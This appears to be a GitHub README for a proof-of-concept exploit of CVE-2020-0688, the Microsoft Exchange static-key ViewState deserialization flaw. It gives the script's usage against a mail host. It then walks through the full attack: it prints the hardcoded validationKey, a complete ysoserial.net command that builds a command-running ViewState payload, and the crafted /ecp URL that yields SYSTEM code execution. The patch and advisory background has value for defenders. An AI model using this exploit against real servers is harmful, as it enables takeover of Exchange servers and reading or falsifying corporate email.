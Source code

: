 # CVE-2020-0688 

## Poc Usage

python3 CVE-2020-0688.py mail.chinabaiker.com username password command

## Details

This most recent Patch Tuesday, Microsoft released an Important-rated patch to address a remote code execution bug in Microsoft Exchange Server. This vulnerability was reported to us by an anonymous researcher and affects all supported versions of Microsoft Exchange Server up until the recent patch.

Initially, Microsoft stated this bug was due to a memory corruption vulnerability and could be exploited by a specially crafted email sent to a vulnerable Exchange server. They have since revised their write-up to (correctly) indicate that the vulnerability results from Exchange Server failing to properly create unique cryptographic keys at the time of installation.

Specifically, the bug is found in the Exchange Control Panel (ECP) component. The nature of the bug is quite simple. Instead of having randomly-generated keys on a per-installation basis, all installations of Microsoft Exchange Server have the same validationKey and decryptionKey values in web.config. These keys are used to provide security for ViewState. ViewState is server-side data that ASP.NET web applications store in serialized format on the client. The client provides this data back to the server via the __VIEWSTATE request parameter.

![demo](images/1.png)

Due to the use of static keys, an authenticated attacker can trick the server into deserializing maliciously crafted ViewState data. With the help of YSoSerial.net, an attacker can execute arbitrary .NET code on the server in the context of the Exchange Control Panel web application, which runs as SYSTEM.

To exploit this vulnerability, we need to collect the ViewStateUserKey and the __VIEWSTATEGENERATOR values from an authenticated session. The ViewStateUserKey can be obtained from the ASP.NET _SessionID cookie, while the ViewStateUserKey can be found in a hidden field. All this can be easily obtained using standard developer tools within the browser.

To begin, browse to the /ecp/default.aspx page and log in. The account used does not need to have any special privileges. In this example, we are using an account named user:

![demo](images/2.png)

To continue, we need to gather some information. The most valuable part is already known:

```
       validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
       validationalg = SHA1
```

To obtain the ViewStateUserKey and the __VIEWSTATEGENERATOR, open the Network tab of Dev Tools (F12) and resend the request by hitting F5. We need the raw response of the request to /ecp/default.aspx while logged in:

![demo](images/3.png)

As you can see, the __VIEWSTATEGENERATOR value is visible in page source. In this example, its value is B97B4E27. In all likelihood, your value will be the same. Next, open the Headers tab and find the ASP.NET_SessionId cookie in Request headers:

![demo](images/4.png)

In this example, its value is 05ae4b41-51e1-4c3a-9241-6b87b169d663.

We now have all the information needed to conduct an attack:

```
        --validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
        --validationalg = SHA1
        --generator = B97B4E27
        --viewstateuserkey = 05ae4b41-51e1-4c3a-9241-6b87b169d663
```

The next step is to generate a ViewState payload using ysoserial.net. We’ll generate a payload that demonstrates code execution by creating the file C:\Vuln_Server.txt:

```
        ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
```

![demo](images/5.png)

Finally, we need to URL-encode the ViewState payload and construct a URL as follows:

/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

substituting the generator and URL-encoded ViewState obtained above.

We then submit the resulting URL to the Exchange server simply by pasting it into the browser address bar:

![demo](images/6.png)

The server complains of a 500 Unexpected Error, but the attack succeeds. Examining the effect on the target server:

![demo](images/7.png)

Sure enough, the file Vuln_Server.txt now exists. Examining ownership information on the file confirms it was created by a process with a SYSTEM token.

![demo](images/8.png)

This demonstrates that an attacker can execute arbitrary code as SYSTEM and fully compromise the target Exchange server.

Conclusion

Microsoft patched this vulnerability in February 2020 as CVE-2020-0688. According to their write-up, they addressed this vulnerability by “correcting how Microsoft Exchange creates the keys during install.” In other words, they now randomize the cryptographic keys at installation time. Microsoft rated this as Important in severity, likely because an attacker must first authenticate. It should be noted, however, that within an enterprise, most any user would be allowed to authenticate to the Exchange server. Similarly, any outside attacker who compromised the device or credentials of any enterprise user would be able to proceed to take over the Exchange server. Having accomplished this, an attacker would be positioned to divulge or falsify corporate email communications at will. Accordingly, if you’re an Exchange Server administrator, you should treat this as a Critical-rated patch and deploy it as soon as your testing is complete. Microsoft lists this with an Exploit Index of 1, which means they expect to see exploits within 30 days of the patch release. As demonstrated, that certainly seems likely.